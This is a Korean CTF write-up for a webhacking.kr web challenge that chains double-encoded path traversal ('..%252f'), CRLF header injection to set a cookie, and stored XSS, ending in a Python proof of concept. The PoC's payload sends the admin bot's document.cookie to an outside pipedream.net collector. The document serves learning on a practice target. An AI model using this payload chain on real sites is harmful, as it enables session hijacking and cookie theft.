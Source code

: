 - 브라우저 입장
- /user/..%2ftest/1 -> 하나의 경로로 해석

- 서버 입장
- /~~user/..%2f~~ test/1 -> `%2f`를 디코딩하여 `../`로 인식하게 되고 `/test/1`로 반환
<br/>

이 문제에서는 조금 달랐던 부분은 아래와 같이 `..%2f..%2f`로 보내주면 `400`에러를 만나고  
![%2f](../../../assets/img/2023-03-04/%2f.png){: w="600" h="300" }  
<br/>

`..%252f..%252f`와 같이 더블 인코딩을 해야 의도대로 리다이렉트가 이루어지고 두번 상위 경로로 이동하여 `/`로 이동할 수 있었습니다.  
![double](../../../assets/img/2023-03-04/double.png){: w="600" h="300" }  
<br/>

# Exploit
***
위의 내용들을 종합하여 아래처럼 `admin 봇`에게 보낼 페이로드를 작성할 수 있습니다.(주의할 것은! `base64`로 인코딩된 `COOKIE_VALUE`가 `=`로 끝나면 정상적으로 익스플로잇이 안됩니다... equal sign으로 인식하는 것인지 어떻게 해도 이렇게 끝나는 것들은 안되더라고요 `==`로 끝나는 것은 잘됩니다 이것 때문에 +2시간 삽질😞)  
- favicon.ico%2f..%252f..%252f%0d%0aSet-Cookie:memo=COOKIE_VALUE;  
<br/>

## PoC Code
***
```python
from requests import post
from base64 import b64encode

info = lambda x : print(f"[+] {x}")

URL = "http://webhacking.kr:10013"
ATTACKER = 'https://eo83ud3n5uavhrd.m.pipedream.net'


COOKIE = b64encode(f'["%c><img src=1 onerror=location.href=\\"{ATTACKER}?\\"+document.cookie></img>","39"]'.encode('utf-8')).decode('utf-8')
info(f"Malicious Cookie is {COOKIE}")
data = {"url":f"favicon.ico%2f..%252f..%252f%0d%0aSet-Cookie:memo={COOKIE};"}

res=post(f"{URL}/report.php", data=data)

info('Visit your Server!!')
```
{: file='exploit.py'}
<br/>

생각해야할 것이 많은 문제였습니다. 가뜩이나 요즘 답답한 일도 있고 안풀리는 문제들도 쌓여서 터지기 직전이었는데 이 문제라도 풀어서 다행이네요 ~_~  
![gabi](../../../assets/img/2023-03-04/gabi.jpeg){: w="500" h="250" }  
<br/>

# Reference
***
- [https://www.hahwul.com/cullinan/crlf-injection/](https://www.hahwul.com/cullinan/crlf-injection/)


